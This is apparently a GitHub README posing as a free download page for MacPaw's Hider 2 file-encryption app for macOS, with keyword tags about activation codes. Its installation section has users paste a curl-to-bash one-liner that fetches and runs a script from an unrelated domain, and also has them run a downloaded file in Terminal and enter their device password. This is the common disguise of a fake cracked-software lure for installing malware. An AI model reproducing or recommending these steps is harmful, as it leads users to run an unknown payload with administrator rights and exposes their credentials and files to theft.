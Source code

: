 # 🔐 Macpaw Hider 2 – Free Download

![Hider 2 Interface](https://cdn.lifehacker.ru/wp-content/uploads/2014/04/osx-hider2-image-02.jpg)

## 📥 Download Hider 2 for Mac

[![🔓 Download Hider 2 for Free](https://img.shields.io/badge/Download%20Hider%202%20for%20Mac-Free%20Now-blue?style=for-the-badge&logo=apple)](https://hider-2-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🔍 What is Hider 2?

**Hider 2** by MacPaw is an advanced and user-friendly tool for **hiding and encrypting sensitive files and folders on macOS**. Designed to offer bulletproof privacy, it allows users to secure important documents, personal files, or confidential business data with military-grade AES-256 encryption. 

With just a drag and drop, your files are instantly encrypted and hidden from prying eyes. Hider 2 keeps your files organized in a simple sidebar interface and automatically locks your secure vault when idle or closed, ensuring your privacy remains intact at all times.

Perfect for freelancers, professionals, and anyone who values data security, **Hider 2 makes privacy simple, elegant, and foolproof**.

---

![Hider 2 Encrypted Files](https://cdnp0.stackassets.com/f1e8180749263252fe74105c55755164c0c371b3/store/f88f4bce7e40462f91c208243109b44525f3794cd214e2309d41c2b6dd07/product_21922_product_shots1_image.jpg)

---

## 🔐 Key Features

- 🔒 **AES-256 Encryption** – Top-tier protection for files and folders.
- 📂 **Instant Hide/Unhide** – One-click visibility control.
- 🧰 **Vaults** – Organize encrypted data into secure vaults.
- 💨 **Auto-Lock** – Automatically locks vaults after inactivity.
- 🎯 **Drag-and-Drop Simplicity** – Intuitive interface for quick security.
- 🖥️ **Native macOS Support** – Seamlessly integrated into your Mac workflow.
- 🧼 **System Cleaner Integration** – Easily remove file traces from disk.
- 🔑 **Password Protection** – Keep files safe with one master password.

---

## 🤔 Why Use Hider 2?

Unlike other encryption tools, **Hider 2 is built with simplicity and elegance in mind**. You don’t need to be a tech expert to protect your files. With a clean UI and smooth integration into macOS, it turns the often complex process of data encryption into a seamless experience.

Whether you're a journalist protecting sources, a developer safeguarding source code, or simply a Mac user who values privacy, Hider 2 is a **trusted and powerful** solution to keep your files safe and hidden.

---

## 🏷️ Tags

hider 2, hider 2 mac, hider 2 download, hider 2 mac download, hider 2 mac free download, macpaw hider, macpaw hider 2, macpaw hider 2 activation code, hider 2 free download
